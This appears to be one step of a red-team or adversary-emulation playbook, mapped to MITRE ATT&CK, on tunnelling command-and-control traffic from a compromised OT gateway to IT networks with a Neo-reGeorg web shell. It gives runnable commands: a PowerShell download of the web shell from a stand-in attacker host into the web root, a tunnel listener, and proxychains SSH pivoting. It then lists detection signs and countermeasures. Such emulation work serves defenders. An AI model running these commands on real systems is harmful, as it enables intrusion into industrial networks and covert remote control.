 # Step 6: Internal Proxy & Covert Comms

**Tactic**: Command and Control [TA0011]  
**Technique**: Proxy [T1090]

---

**Objective**  
Deploy an internal web shell-based tunnel (Neo-reGeorg) on a compromised OT system to route command-and-control traffic from internal subnets covertly through the OT-IT boundary. This simulates lateral infrastructure pivoting and egress over authorized channels.

---

**Execution**  
1. Identify OT system with HTTP/HTTPS access to IT subnet (e.g., `ot-gw-win-001`)

2. Use WMI or `Invoke-Command` to upload and deploy Neo-reGeorg tunnel:
   ```powershell
   Invoke-Command -ComputerName "ot-gw-win-001" -ScriptBlock {
     Invoke-WebRequest -Uri "http://attacker-c2.local/ng.asp" -OutFile "C:\inetpub\wwwroot\ng.asp"
   }
   ```

3. Establish SSH-based listener (external operator system):
   ```bash
   python neo-reGeorg.py --URL http://10.20.5.45/ng.asp --LPORT 1080
   ```

4. Validate tunnel connectivity using proxychains or routed SSH:
   ```bash
   proxychains ssh user@10.2.15.206
   ```

5. Relay additional WMI/SMB commands through tunnel for remote access persistence

---

**Result**  
An HTTP-based tunnel now relays traffic from the internal OT system to IT systems, providing covert C2 channel for lateral movement or data staging.

---

**Detection Opportunities**

| Vector | Description |
|--------|-------------|
| OT to IT Traffic | OT systems initiating outbound connections to IT segment (unusual) |
| Tunneling Patterns | HTTP requests with long URIs or consistent polling intervals |
| Parent Processes | `w3wp.exe`, `python.exe`, or `powershell.exe` child processes on OT endpoints |

---

**Defensive Countermeasures**

- Kill the web shell/tunnel process on OT system
- Block outbound HTTP/HTTPS from OT subnet via firewall or DPI
- Monitor OT endpoints for the presence of script interpreters (PowerShell, Python, etc.)
- Enforce deny-all egress policy on OT unless explicitly approved
- Deploy DPI sensors at OT/IT boundary to detect HTTP beaconing or tunnels

---

**Assets Involved**  
- OT Host: `ot-gw-win-001`  
- VPN Bridge & Internal C2 Infrastructure  
- Tools: `neo-reGeorg.py`, `Invoke-WebRequest`, `proxychains`, `ssh`
